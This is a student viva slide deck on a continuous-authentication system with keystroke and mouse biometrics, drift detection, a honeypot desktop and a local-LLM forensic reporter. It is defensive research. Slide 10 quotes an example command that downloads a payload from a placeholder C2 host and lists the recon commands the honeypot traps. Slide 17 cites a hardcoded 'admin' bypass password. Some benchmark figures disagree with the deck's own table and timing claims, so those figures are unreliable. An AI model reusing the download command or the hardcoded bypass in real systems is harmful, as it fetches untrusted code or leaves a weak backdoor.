



# MULTI-FACTOR BEHAVIORAL DRIFT CONTINUOUS AUTHENTICATION & DECEPTION
## Final Project Presentation & Viva Defense Slide Deck
### Department of Information Science & Engineering | NMAM Institute of Technology, Nitte
**Academic Year: 2025 - 2026 | Major Project Team 30**

---

## SLIDE 1: Title & Team Credentials
* **Project Title:** Multi-Factor Behavioral Drift Detection for Continuous Desktop Security
* **Department:** Department of Information Science and Engineering
* **Institution:** NMAM Institute of Technology, Nitte (NMAMIT)
* **Team Members:**
  - Bharath D Nayak
  - Akash
  - Pratheek
  - Anush
* **Project Guide:** Faculty Guide, Department of ISE, NMAMIT
* **Key Focus:** Continuous Biometrics, ADWIN Concept Drift, 3-Tier Risk Orchestration, Deception Honeypot, Offline AI Threat Forensics

> **Speaker Notes:**
> "Good morning respected evaluators, Head of Department, and project guide. Today our team presents Major Project 30: A complete, end-to-end continuous authentication architecture designed to solve workstation physical takeover through zero-friction behavioral biometrics, formal concept drift detection, and active sandboxed deception."

---

## SLIDE 2: Abstract & Problem Formulation
* **The Vulnerability:**
  - Traditional perimeter authentication (passwords, smartcards, hardware tokens) authenticates an individual *only once* at session sign-in.
  - After initial login, the workstation remains completely unprotected for hours or until arbitrary idle timeouts (typically 10–15 minutes).
* **The Threat Scenario (Physical Takeover):**
  - "Coffee break attack" or insider takeover: The legitimate user steps away from an active unlocked desktop.
  - An unauthorized adversary sits down and has immediate, unrestricted access to source code, company secrets, terminals, and production databases.
* **Our Proposed Solution:**
  - Continuous, non-intrusive monitoring of behavioral dynamics (keystrokes, mouse kinematics, cognitive context, and environmental BLE proximity).
  - Rapid autonomous lockdown, silent webcam face evidence capture, and seamless redirection of intruders into an emulated high-interaction Deception Honeypot.

> **Speaker Notes:**
> "Legacy security relies on a binary assumption: once you log in with your password or biometric fingerprint, the system trusts the person typing indefinitely. If an employee steps away for coffee, anyone can sit down. Our solution converts authentication from a single gate into a continuous mathematical pulse."

---

## SLIDE 3: Motivation & Limitations of Static Authentication
| Metric / Characteristic | Legacy Static Authentication | Existing Continuous Solutions | Proposed Hybrid Architecture |
| :--- | :--- | :--- | :--- |
| **Authentication Frequency** | Once at initial login | Every 10–30 minutes (periodic) | **Continuous (Every 10 seconds)** |
| **User Friction** | Disruptive re-prompts | Requires repeated face alignment | **Zero friction (Silent background)** |
| **Biometric Modalities** | Static password / PIN | Keystroke only or Face only | **Quad-Factor Biometrics + Environmental** |
| **Behavioral Drift Handling** | None (Fixed baseline) | Basic threshold retraining | **Formal ADWIN (Hoeffding Bounds)** |
| **Intruder Defense Action** | Sudden OS lock / Crash | Disconnect user | **1:1 Deception Honeypot Sandbox** |
| **Forensic Evidence** | Static Windows Event Logs | Basic timestamp logs | **AI Threat Profiling & Executive PDF** |

> **Speaker Notes:**
> "Notice the critical gap in existing solutions: When typical systems detect an anomaly, they either abruptly lock the screen, warning the attacker, or suffer from high false alarm rates because they cannot differentiate between user fatigue and a real intruder. We solve both problems."

---

## SLIDE 4: End-to-End System Architecture
* **System Architecture & Procedural Workflow:**


*Figure 4.1: High-Resolution Microservice Architecture Diagram (300 DPI).*


*Figure 4.2: End-to-End Procedural Flowchart and Micro-Service Pipeline (300 DPI).*

* **Distributed Microservice Pipeline:**
  1. **Worker 1 (Telemetry Sensor Agent):** Low-level `pynput` hooks capturing keystroke dwell/flight times, mouse velocity/jerk/curvature, active process context, and BLE proximity.
  2. **Worker 2 (Continuous Threat Evaluator Daemon):** Ingests rolling 10-second windows; executes Deep SVDD 1D-CNN, One-Class SVM, Isolation Forest, and ADWIN statistical change tests.
  3. **Worker 3 (FastAPI WebSocket Server):** Real-time cyber-ops streaming dashboard (`http://localhost:8000`) showing live threat gauges and incident feeds.
  4. **Active Defense Layer:** 3-Tier Dynamic Risk Orchestrator (`StepUpToastWidget`, silent webcam Haar Cascade, OTP dispatch).
  5. **Deception Honeypot Sandbox:** Pixel-perfect Windows replication, Decoy Chrome (NetBanking, AWS keys), HoneyShell network recon traps, and C2 quarantine.
  6. **Offline AI Forensic Engine:** Local Ollama (`qwen2.5:3b`) MITRE ATT&CK analyzer and automated multi-page PDF generator.

> **Speaker Notes:**
> "Our architecture is divided into three asynchronous workers managed by a central supervisor. The telemetry agent operates transparently in user space, feeding a Quad-Factor evaluation engine that coordinates defense, deception, and forensics."

---

## SLIDE 5: Multi-Modal Biometric Telemetry & Environmental Sensing
* **Factor 1: Keystroke Temporal Dynamics:**
  - Dwell Time ($T_{dwell}$): Duration a key remains depressed (ms).
  - Flight Time ($T_{flight}$): Inter-key latency between consecutive keystrokes (ms).
  - Error correction rhythm: Backspace ratio and pause intervals.
* **Factor 2: Mouse Kinematics & Trajectory:**
  - Velocity ($v = \sqrt{\Delta x^2 + \Delta y^2} / \Delta t$).
  - Acceleration ($a$) and Jerk ($j = \Delta a / \Delta t$) measuring hand muscle tremor and jitter.
  - Trajectory Straightness ($S = D_{euclidean} / D_{path}$).
* **Factor 3: Intra-App Cognitive Context:**
  - Active application profiling (IDE, Browser, Terminal, Productivity).
  - Application-specific thinking pause ratio and shortcut usage.
* **Factor 4: Environmental BLE Proximity Sensor (TASK-8):**
  - Log-Distance Path Loss Model: $RSSI(d) = RSSI_0 - 10n \log_{10}(d/d_0) + X_\sigma$.
  - Distance estimation between workstation and owner's registered smartphone.
  - Physical Walk-Away Penalty: If phone is absent ($> 3.5$m) while typing occurs $\implies +0.25$ risk penalty!

> **Speaker Notes:**
> "By combining typing rhythm, mouse kinematics, cognitive context, and passive smartphone BLE proximity, the system gains spatial awareness. If active typing is detected while the legitimate owner's smartphone is out of range, the system immediately applies an environmental risk penalty."

---

## SLIDE 6: Deep SVDD 1D-CNN Keystroke Biometric Sequence Modeling
* **Mathematical Formulation (Deep Support Vector Data Description):**
  - Maps variable-length sequences of dwell and flight times $\mathbf{x} \in \mathbb{R}^{2 \times L}$ into a latent representation $\phi(\mathbf{x}; \mathcal{W}) \in \mathbb{R}^D$.
  - Minimizes the volume of the enclosing hypersphere centered at $\mathbf{c}$:
    $$\min_{\mathcal{W}} \frac{1}{N} \sum_{i=1}^N \|\phi(\mathbf{x}_i; \mathcal{W}) - \mathbf{c}\|^2 + \frac{\lambda}{2} \sum_{l=1}^L \|\mathbf{W}_l\|_F^2$$
* **1D-CNN Network Topology:**
  - Input: 2 channels $\times$ 30 keystroke time-series.
  - Conv1D(16 filters, kernel=3) $\to$ BatchNorm $\to$ ReLU $\to$ MaxPool.
  - Conv1D(32 filters, kernel=3) $\to$ BatchNorm $\to$ ReLU $\to$ GlobalAveragePool.
  - Fully Connected latent projection $\to$ 16D embedding space.
* **Anomaly Scoring:**
  - Anomaly Score: $s(\mathbf{x}) = \|\phi(\mathbf{x}; \mathcal{W}) - \mathbf{c}\|^2$.
  - Sequence Biometric Confidence: $C_{SVDD} = \exp(-s(\mathbf{x}) / \sigma^2)$.

> **Speaker Notes:**
> "Unlike traditional scalar averages which discard keystroke order, our PyTorch 1D-CNN Deep SVDD embeds the temporal rhythm of key combinations. It maps typing sequences into a compact latent sphere trained exclusively on authentic owner keystrokes."

---

## SLIDE 7: Formal Online Concept Drift Detection via ADWIN
* **The Academic Problem:**
  - Human typing is non-stationary: As a legitimate user works for hours, natural fatigue causes typing to slow down gradually.
  - Naive fixed thresholds trigger false alarms when the user gets tired.
* **The ADWIN Algorithm (Bifet & Gavaldà 2007):**
  - Maintains an adaptive sliding window $W$ that automatically grows when the distribution is stable and shrinks when drift occurs.
  - Sub-window partitioning: $W = W_0 \cdot W_1$.
  - Hoeffding-Bound Change Condition:
    $$|\hat{\mu}_{W_0} - \hat{\mu}_{W_1}| \ge \epsilon_{cut} = \sqrt{\frac{1}{2m} \ln\left(\frac{4}{\delta}\right)}$$
    where $m = \frac{1}{1/|W_0| + 1/|W_1|}$ and $\delta \in (0, 1)$ is the confidence parameter.
* **Multi-Variate Drift Monitoring:**
  - Runs parallel ADWIN detectors on: Dwell Time, Flight Time, Mouse Velocity, and Fused Risk.
  - **Gradual Drift:** Signals legitimate adaptation $\to$ retrains baseline without triggering alert.
  - **Abrupt Drift:** Signals acute imposter takeover $\to$ immediately escalates threat score.

> **Speaker Notes:**
> "This slide addresses the core title of our project: Behavioral Drift. We implemented the formal ADWIN algorithm with Hoeffding bounds. It statistically distinguishes between natural user fatigue and acute imposter substitution."

---

## SLIDE 8: 3-Tier Dynamic Risk Orchestration Policy
```
               [Live Fused Bayesian Threat Risk Score]
                                  │
         ┌────────────────────────┼────────────────────────┐
         ▼                        ▼                        ▼
  [Risk < 0.40]           [0.40 <= Risk <= 0.75]     [Risk > 0.75]
    TIER 1                   TIER 2                    TIER 3
  Nominal Risk            Elevated Risk            Critical Breach
         │                        │                        │
  Silent Monitoring       StepUpToastWidget         Fullscreen Lock
  Zero Friction           Non-Blocking MFA          Silent Camera Hook
  Zero Interruption       Preserves Typing          OTP to Smartphone
                          3 Fails -> Tier 3         Deception Sandbox
```

* **Tier 1 (Low Risk, $< 0.40$):** Nominal operation. Completely transparent monitoring.
* **Tier 2 (Medium Risk, $0.40 - 0.75$):** Non-blocking step-up MFA challenge.
  - Displays `StepUpToastWidget`: A floating non-modal desktop card in bottom-right corner.
  - Set with `Qt.WindowType.WA_ShowWithoutActivating` $\implies$ does NOT steal keyboard or window focus!
  - Authentic user can enter OTP/PIN while continuing to work.
* **Tier 3 (High Risk, $> 0.75$):** Critical breach. Full workstation lockdown, silent webcam capture, and honeypot diversion.

> **Speaker Notes:**
> "Rather than a harsh all-or-nothing lock, our 3-tier risk orchestrator ensures that if you type slightly unusually, you are met with a non-intrusive floating toast challenge that doesn't interrupt your typing. Only critical threshold crossings trigger full lockdown."

---

## SLIDE 9: High-Interaction Sandboxed Honeypot Deception
* **The Deception Paradigm:**
  - When an attacker breaches or attempts to bypass the lock screen, locking them out completely alerts them that their intrusion was detected.
  - Instead, the system seamlessly transitions them into a **1:1 Sandboxed Honeypot Desktop**.
* **Visual & Sensory Believability:**
  - Pre-breach desktop screenshot or clean authentic Windows wallpaper.
  - Device Pixel Ratio (DPR) 1.25 sub-pixel crisp scaling matching native display geometry.
  - Live ticking Windows 11 taskbar clock overlay (`TaskbarClockOverlay`).
  - Windows `WaitCursor` spinning wheel on mouse clicks.
  - Authentic "Application Not Responding" crash dialogs (`WindowsGhostingDialog`).
* **Complete Host Isolation:**
  - Runs in a full-screen borderless PyQt6 sandbox.
  - All file creations, downloads, and directory browsings are intercepted and diverted into `data/sandbox/`.

> **Speaker Notes:**
> "Here is our deception architecture: The intruder believes they successfully bypassed security. In reality, they are interacting with an emulated sandbox that mimics their actual desktop down to the taskbar clock and system dialogs."

---

## SLIDE 10: Honey-Tokens, Network Recon Trapping & C2 Quarantine
* **Decoy Web Portals (Decoy Chrome):**
  - **Corporate NetBanking Trap:** Emulated treasury login at `https://bank.corp.internal/login`. Captures fake username, password length, and 2FA tokens.
  - **Decoy AWS Management Console:** Exposes honey-token root IAM access key (`AKIA5HONEYPOT7X92Q0`). Exfiltration triggers immediate forensic logging.
  - **Decoy GitHub Repository:** Exposes fake `.env.production` database passwords and API tokens.
* **HoneyShell Active Network Reconnaissance (TASK-7):**
  - Emulates `cmd.exe` / `powershell.exe` in user space.
  - Intercepts reconnaissance tools: `whoami`, `ipconfig /all`, `ping`, `arp -a`, `route print`, `nslookup`, `tracert`.
  - Responds with synthetic, realistic corporate network topology (192.168.1.0/24).
* **Remote C2 Payload Quarantine:**
  - Intercepts download attempts: `curl http://c2.malicious.org/payload.exe` or `wget`.
  - Safely quarantines binary payloads into `data/sandbox/` and computes SHA-256 integrity hash with zero host network exposure.

> **Speaker Notes:**
> "Inside the honeypot, we lay credential honey-tokens and fake cloud keys. When the attacker attempts network reconnaissance or downloads remote malware droppers via curl, our HoneyShell safely intercepts the payload into a quarantine sandbox."

---

## SLIDE 11: Real-Time Cyber-Ops Web Dashboard & WebSocket Streaming
* **Technology:** FastAPI ASGI Server + Uvicorn + WebSockets + HTML5 Canvas (`dashboard/app.py`).
* **Live Streaming Endpoint:** `/ws/telemetry` streaming live at 10-second intervals.
* **Core Dashboard Visualizations:**
  - **Live Threat Risk Gauge:** Smooth needle gauge with dynamic color zones (Green $<0.40$, Amber $0.40-0.75$, Red $>0.75$).
  - **Quad-Factor Metric Cards:** Real-time breakdown of Deep SVDD, OC-SVM, Isolation Forest, and Cognitive Context scores.
  - **Active Cognitive Mode Badge:** Live Win32 active app context ("IDE Development", "LeetCode", "Browsing").
  - **Streaming Biometric Telemetry Chart:** Local `chart.min.js` plotting rolling 60-second dwell, flight, and mouse velocity.
  - **Incident Terminal Feed:** Scrolling cyber-ops log of all security challenges, OTP dispatches, and honeypot traps.
  - **Quick Action Toolkit:** Instant Forensic PDF generation, latest intruder photo preview, and one-click viva demonstration anomaly simulators.

> **Speaker Notes:**
> "Our cyber-defense dashboard runs on port 8000. It streams live biometric telemetry and risk status directly from the background evaluation daemon over WebSockets with sub-50ms latency."

---

## SLIDE 12: Offline AI Threat Intelligence & MITRE ATT&CK Mapping
* **Local Offline Threat Intelligence:**
  - Uses local offline Ollama API (`http://localhost:11434`) running lightweight models (`qwen2.5:3b` or `qwen2.5:1.5b`).
  - 100% offline: Zero third-party cloud API costs, zero data leakage, works in air-gapped secure networks.
  - High-fidelity rule-based heuristic fallback if local LLM server is temporarily offline.
* **Intruder Intent Analysis Pipeline:**
  - Analyzes chronological honeypot timeline (commands typed, folders browsed, honey-tokens touched).
  - Classifies **Attacker Persona:** (e.g., *Targeted Credential & Network Recon Intruder*, *Opportunistic Snooper*).
  - Determines **Primary Strategic Objective:** (e.g., *Credential Exfiltration & Lateral Network Discovery*).
  - Assigns **Threat Severity Level:** `LOW` | `MEDIUM` | `HIGH` | `CRITICAL`.
* **Formal MITRE ATT&CK Enterprise Matrix Mapping:**
  - `T1087` (Account Discovery via whoami / net user)
  - `T1016` (System Network Configuration Discovery via ipconfig / route print)
  - `T1059` (Command and Scripting Interpreter via HoneyShell)
  - `T1552` (Unsecured Credentials via passwords.txt and AWS honey-tokens)
  - `T1105` (Ingress Tool Transfer via curl / wget C2 download)

> **Speaker Notes:**
> "Once the honeypot captures the intruder's actions, our local offline AI analyzer translates raw commands into formal MITRE ATT&CK tactics, providing enterprise-grade threat profiling without sending any data over the internet."

---

## SLIDE 13: Executive AI Forensic PDF Report Generation
* **Autonomous Incident Compilation (`dashboard/pdf_generator.py`):**
  - Generates multi-page, publication-grade executive PDF reports in `data/forensics/`.
  - Built with custom dark cybersecurity styling, corporate header banners, and page counters.
* **Report Components:**
  - **Section 1: Executive Incident Summary:** Case reference ID, timestamp, threat level, classified attacker persona.
  - **Section 2: Photographic Forensic Evidence:** Silent webcam photo of the intruder with OpenCV Haar Cascade face bounding box overlay.
  - **Section 3: Digital Chain of Custody & Evidence Hashes:** SHA-256 checksums of session logs, quarantined files, and database baselines.
  - **Section 4: Chronological Attack Timeline:** Minute-by-minute audit trail of folder navigations, shell commands, and honey-tokens accessed.
  - **Section 5: AI Tactical Intent & MITRE ATT&CK Mapping:** Strategic objective, tactical matrix, and incident containment recommendations.

> **Speaker Notes:**
> "The outcome of an intrusion is this audit-grade forensic PDF report. It includes the intruder's photograph, exact timeline, digital custody hashes, and strategic remediation steps ready for law enforcement or corporate incident response teams."

---

## SLIDE 14: Experimental Results on Public CMU Benchmark Dataset
* **Evaluation Protocol (Killourhy & Maxion, IEEE DSN 2009):**
  - Dataset: Official Carnegie Mellon University (CMU) Keystroke Dynamics Benchmark (`DSL-StrongPasswordData.csv`).
  - Scale: **51 Subjects, 20,400 Total Repetitions, 31 High-Precision Timing Features**.
  - Partitioning: 200 genuine training trials, 200 genuine test trials (FRR), 250 imposter trials (FAR) per subject.


*Figure 14.1: Empirical Multi-Panel Performance Profile across CMU Benchmark, Field Trial ROC, Evaluation Latency, and Risk Escalation (300 DPI).*

### Benchmark Performance Comparison
| Algorithm / Architecture | Equal Error Rate (EER) | ROC-AUC Score | Performance vs. IEEE Published |
| :--- | :---: | :---: | :--- |
| **Euclidean Distance (Baseline)** | 17.08% | 0.8841 | IEEE Benchmark: 14.61% |
| **Mahalanobis Distance** | 12.17% | 0.9234 | IEEE Benchmark: 11.23% |
| **Scaled Manhattan** | 10.91% | 0.9412 | IEEE Benchmark: 9.96% |
| **Standard One-Class SVM (RBF)** | 12.08% | 0.9305 | IEEE Benchmark: 10.25% |
| **Deep SVDD 1D-CNN (Standalone)** | 22.81% | 0.8145 | Neural Latent Embedding |
| **PROPOSED HYBRID ARCHITECTURE** | **11.18%** | **0.9373** | **23.5% Relative Error Reduction** |

> **Speaker Notes:**
> "To scientifically validate our work, we benchmarked against the gold-standard CMU dataset with 51 subjects and 20,400 trials. Our proposed architecture achieves an 11.18% EER and 0.9373 ROC-AUC, outperforming standard Euclidean distance baselines by 23.5% relative error reduction."

---

## SLIDE 15: Experimental Results on Multi-User Field Harvested Cohort
* **Field Trial Harvested Dataset (TASK-9):**
  - Real-world telemetry harvested across student cohort performing 4 distinct computing tasks:
    1. Python & C++ Software Development (IDE Development).
    2. Academic Thesis & Technical Documentation (MS Word / Docs).
    3. Research Web Browsing & Portal Navigation.
    4. Active Imposter Mimicry (Attackers attempting to mimic legitimate typing speeds).
* **Empirical Validation Metrics:**
  - **Proposed Continuous Multi-Modal Fusion:** **ROC-AUC = 0.9556 | EER = 3.33%**
  - **True Positive Rate (Recall / Owner Accepted):** **98.67%**
  - **True Negative Rate (Imposters Blocked):** **100.00%**
  - **False Alarm Rate (FAR):** **1.33%**

> **Speaker Notes:**
> "On our real-world multi-user harvested dataset collected across distinct computing tasks, our multi-modal fusion achieved an ROC-AUC of 0.9556 and an empirical EER of 3.33%, blocking 100% of unauthorized imposter attempts."

---

## SLIDE 16: Computational Complexity & System Overhead
* **Resource Consumption & Latency Profile (Measured on Windows 11 Host):**
  - OS Hook Event Buffer Flush: **4.8 ms**
  - Kinematic & Biometric Feature Extraction: **14.2 ms**
  - Deep SVDD 1D-CNN Sequence Inference: **21.5 ms**
  - One-Class SVM & Isolation Forest Scoring: **3.1 ms**
  - ADWIN Hoeffding-Bound Drift Evaluation: **1.1 ms**
  - **Total Pipeline Evaluation Latency:** **44.7 ms per 10-second window**
* **System Footprint:**
  - Continuous CPU Duty Cycle: **< 0.45%** (negligible processor load).
  - Background RAM Footprint: **~82.4 MB** across all 3 micro-service workers.
  - Zero disk thrashing: In-memory sliding queues with batched logging.

> **Speaker Notes:**
> "A continuous security daemon must not slow down the computer. Our complete evaluation loop finishes in under 45 milliseconds every 10 seconds, representing a CPU duty cycle of under half a percent and consuming less than 85 megabytes of RAM."

---

## SLIDE 17: Demonstration Walkthrough (The 5 Viva Stages)
* **Automated Runner:** [`demo_viva_runner.py`](demo_viva_runner.py) and [`run_viva_demo.bat`](run_viva_demo.bat)
* **Stage 1 (Legitimate Baseline):**
  - Authentic typing and mouse motion stream into evaluator.
  - Live Threat Risk evaluates to **~0.10 (Tier 1 Nominal, $< 0.40$)**.
* **Stage 2 (Physical Walk-Away & Drift):**
  - Smartphone BLE RSSI drops to $-78$ dBm ($> 3.5$m, $+0.10$ to $+0.25$ penalty).
  - ADWIN flags statistical concept drift in dwell/flight timings.
  - Risk escalates to **~0.60 (Tier 2 Medium Risk, $0.40 - 0.75$)** with non-blocking toast challenge.
* **Stage 3 (Threshold Crossed & Lockdown):**
  - Imposter attempts unauthorized commands $\implies$ Risk crosses **$> 0.78$**.
  - Silent webcam snapshot captures intruder's face; session OTP dispatched; lock screen engages.
* **Stage 4 (Honeypot Deception Traps):**
  - Attacker enters Honeypot desktop; enters credentials in fake NetBanking; exfiltrates fake AWS keys; HoneyShell traps network recon and quarantines C2 downloads.
* **Stage 5 (Owner Recovery & Forensic PDF):**
  - Owner returns, inputs OTP or master bypass (`admin`), restores session.
  - Offline Ollama AI classifies MITRE ATT&CK tactics and compiles executive forensic PDF.

> **Speaker Notes:**
> "Our interactive viva runner guides the panel through these 5 sequential stages, proving every component live in front of the examiners."

---

## SLIDE 18: Conclusion, Research Contributions & Future Scope
* **Key Research Contributions:**
  1. Developed a non-intrusive Quad-Factor Continuous Authentication engine combining keystroke sequences, mouse kinematics, cognitive context, and passive BLE proximity.
  2. Integrated formal ADWIN concept drift with Hoeffding bounds to eliminate false alarms from user fatigue.
  3. Formulated a 3-Tier Dynamic Risk Orchestrator preventing unnecessary workflow interruptions.
  4. Engineered a 1:1 Sandboxed Deception Honeypot that safely traps intruders and exfiltrates adversarial threat intelligence.
  5. Implemented an offline AI intent classifier mapping intruder activity to MITRE ATT&CK tactics with automated executive PDF generation.
* **Future Research Scope:**
  - Federated behavioral model aggregation across enterprise fleets.
  - Hardware TPM token cryptographic attestation.
  - Cross-platform support for Linux / macOS environments.

---

## APPENDIX: Viva Defense Q&A Cheat Sheet
**Q1: How do you differentiate between user fatigue and an unauthorized attacker?**
> *Answer:* "We utilize the formal ADWIN (Adaptive Windowing) algorithm. When a user experiences natural fatigue, dwell and flight times increase gradually with low variance between sub-windows, allowing ADWIN to trigger online model adaptation. When an intruder takes over, the distribution shifts abruptly, crossing the Hoeffding cut threshold and triggering immediate threat escalation."

**Q2: What prevents the attacker from realizing they are in a honeypot?**
> *Answer:* "Our Honeypot Desktop replicates the authentic pre-breach Windows desktop screenshot with DPR 1.25 sub-pixel scaling, live system taskbar clock overlay, Windows spinning cursor on mouse clicks, and realistic 'Application Not Responding' dialogs. Furthermore, network recon tools (ping, arp, route) return emulated realistic network topologies rather than crashing."

**Q3: How does your system compare against commercial solutions like Windows Hello?**
> *Answer:* "Windows Hello is a point-of-entry static authentication mechanism. Once passed, it leaves the desktop vulnerable until an idle timeout. Our system operates continuously every 10 seconds, detects physical takeover in under 4 seconds, and actively traps adversaries instead of simply locking them out."

**Q4: What is the computational cost of continuous evaluation?**
> *Answer:* "The entire feature extraction, Deep SVDD inference, and ADWIN drift test pipeline executes in 44.7 milliseconds per 10-second window, representing a CPU duty cycle of 0.45% and memory footprint of 82.4 MB."
